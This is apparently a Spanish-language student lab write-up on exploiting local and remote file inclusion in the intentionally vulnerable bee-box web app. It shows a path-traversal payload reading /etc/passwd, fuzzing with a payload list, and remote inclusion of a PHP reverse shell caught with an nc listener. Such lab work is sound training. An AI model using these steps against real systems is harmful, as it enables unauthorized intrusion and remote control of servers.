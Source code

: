 ```yaml
---
title: MTD - File Inclusion
published: true
categories: [Linux]
tags: [eJPT, eWPT, eCPPTv2, OSCP, Dificil]
---
```



¡Hola! 
Hoy vamos a realizar el primer ejercicio del módulo de Hacking de aplicaciones Web, trabajando sobre la máquina `beebox`.
En este ejercicio realizaremos un `File inclusion`.

### Herramientas usadas: 
- **OWAS-ZAP Proxy**
- **Fuzz**
- **Scripting**


* * *

# PRIMEROS PASOS
En primer lugar usaremos `OWAS-ZAP` como proxy para indexar las páginas web y poder realizar un análisis más detallado.
La herramienta viene preinstalada en nuestro `kali linux` por lo tanto solamente tendriamos que abrirlo desde el gestor de aplicaciones y acto seguido configurar el `proxy` en nuestro navegador.

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110245804964315297/proxy.png">

Acto seguido pasamos entrar a la web de nuestro máquina `bee-box`, en nuestro caso tendríamos la IP 10.0.2.5.


Como podemos ver en este `login` tenemos las credenciales ya dadas, en este caso `bee` de usuario y `bug` como contraseña.
Dentro de la aplicación web podemos encontrar en el apartado `A7` el ejercicio de `Remote & Local File Inclusion (RFI/LFI)`.
<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246169310937119/intro.png">

* * * 

# EN LA APLICACIÓN WEB
Una vez dentro de la aplicación web podemos ver un selector de lenguajes, a simple vista parece algo simple.


Cuando seleccionamos un lenguaje, podemos ver que la URL de nuestra aplicación web cambia. 
Esto sería un vacío donde podriamos realizar nuestras técnicas de intrusión.

Observamos que dentro del link añade una particularidad, `?language=lang_en.php` donde podemos comenzar a intentar escalar privilegios usando `../../etc/passw` para subir entre carpetas dentro del servidor web y podriamos ver si nos devuelve el fichero sensible.

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246354879533207/etc_pass.png">

Si analizamos el código fuente de la aplicación web, podemos ver que nos ha devuelto el fichero completo con sus directorios y nombres de usuario

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246460185907280/codigo_fuente.png">

Esta información podemos usarla para aplicarle ténicas de `fuzzing` con `OWAS-ZAP`. Eso lo veremos en el siguiente paso.

* * *

# USO DE LA APLICACIÓN
La aplicación que vamos a usar es `OWAS-ZAP` con técnicas de `fuzzing` cargando diccionarios, en este caso usaremos el diccionario del repositorio `AllPayloadThings` usando el fichero de `File Inclusion`

<img src="https://media.discordapp.net/attachments/1103281093643345932/1110246521154318436/usopayload.png">

Una vez configurado el fichero que vamos a usar, lanzamos el fuzzer y analizaremos los datos hallados.
Podemos observar en el `Fuzzed 7` un fichero `etc/apache2/` lo que podría hacernos ver una apertura de seguridad muy seria.

En nuestra máquina kali linux tenemos el repositorio de `webshells` con la cual podemos hacer una `shell` remota hacia nuestra máquina aprovechando la vulnerabilidad del servidor apache.

```bash
cd /usr/share/webshells/php
```

Usaremos el repositorio `php` ya que sabemos que el motor de la aplicacion web está en el lenguaje `php`.
Dentro del directorio podremos encontrar diferentes tipos de webshell a usar. Nosotros cargaremos una `reverseshell`.
En este caso tendremos que revisar el source code del fichero para configurar la dirección IP y puerto que usaremos.

```bash
nano php-reverse-shell.php
```
Una vez configurado nuestro archivo, tenemos que copiar en el directorio `/var/www/html`.

```bash
cp php-reverse-shell.php /var/www/html
```
Una vez configurado nuestro fichero a usar, podremos proceder a colocar nuestro enlace, previamente iniciando un servicio de apache2 y poniendo nuestra máquina a la escucha y cargaremos nuestra webshell desde el mismo link de la aplicación web.

```bash
service apache2 start
```

```bash
nc -lvnp 44044
```

Probaremos con cargar dentro del URL de la aplicación web nuestra `webshell` 

`http://nuestraIPdelamáquina/php-reverse-shell.php`

Y cuando vayamos hacia nuestra `shell` podremos observar que hemos conectado una remote shell hacia nuestra máquina y estamos dentro de la máquina `beebox`.

```bash
whoami
```
Podemos observar que estamos en el directorio /home/root/ de `beebox`



* * *

*__Esto es un ejercicio con fines didácticos realizado para MasterD.__*
